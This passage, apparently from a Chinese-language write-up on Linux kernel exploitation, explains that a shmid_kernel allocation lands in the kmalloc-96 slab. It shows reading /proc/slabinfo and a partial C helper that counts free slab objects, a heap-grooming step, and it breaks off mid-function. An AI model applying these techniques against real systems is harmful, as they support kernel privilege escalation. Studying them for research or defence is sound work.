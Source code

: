 ```c
}

void* ipc_rcu_alloc(int size)
{
	void* out;
	/* 
	 * We prepend the allocation with the rcu struct, and
	 * workqueue if necessary (for vmalloc). 
	 */
	if (rcu_use_vmalloc(size)) {
		out = vmalloc(HDRLEN_VMALLOC + size);
		if (out) {
			out += HDRLEN_VMALLOC;
			container_of(out, struct ipc_rcu_hdr, data)->is_vmalloc = 1;
			container_of(out, struct ipc_rcu_hdr, data)->refcount = 1;
		}
	} else {
		out = kmalloc(HDRLEN_KMALLOC + size, GFP_KERNEL);
		if (out) {
			out += HDRLEN_KMALLOC;
			container_of(out, struct ipc_rcu_hdr, data)->is_vmalloc = 0;
			container_of(out, struct ipc_rcu_hdr, data)->refcount = 1;
		}
	}

	return out;
}
```
shmid_kernel结构体大小只有80字节大小，但是实际会分配HDRLEN_VMALLOC+80=88大小的内存块，处于kmalloc-96的slab中。我们可以通过解析/proc/slabinfo这个文件来得到相应的slab剩余的object的数目。
```shell
root@w0lfzhang666:/home/w0lfzhang# cat /proc/slabinfo | grep kmalloc-96
kmalloc-96          1269   1288    144   28    1 : tunables    0    0    0 : slabdata     46     46      0 
```
主要关注前面4个字段，分别表示slab_name, active_objs， total_objs， objsize。可通过以下函数得到剩余slab数目：
```c
int check_slabinfo(char *cache, int *active_out, int *total_out)
{
	FILE *fp;
	char name[64], slab[256];
	int active, total, diff;

	memset(slab, 0, sizeof(slab));
	memset(name, 0, sizeof(name));

	fp = fopen("/proc/slabinfo", "r");
	if (!fp) {
		printf("[-] sorry, /proc/slabinfo is not available!");
		exit(1);
	}

	fgets(slab, sizeof(slab) - 1, fp);
	while (1) {
		fgets(slab, sizeof(slab) - 1, fp);
		sscanf(slab, "%s %u %u", name, &active, &total);
		diff = total - active;
		if (strcmp(name, cache) == 0) {
			break;
		}
	}
	fclose(fp);

	if (active_out) {
```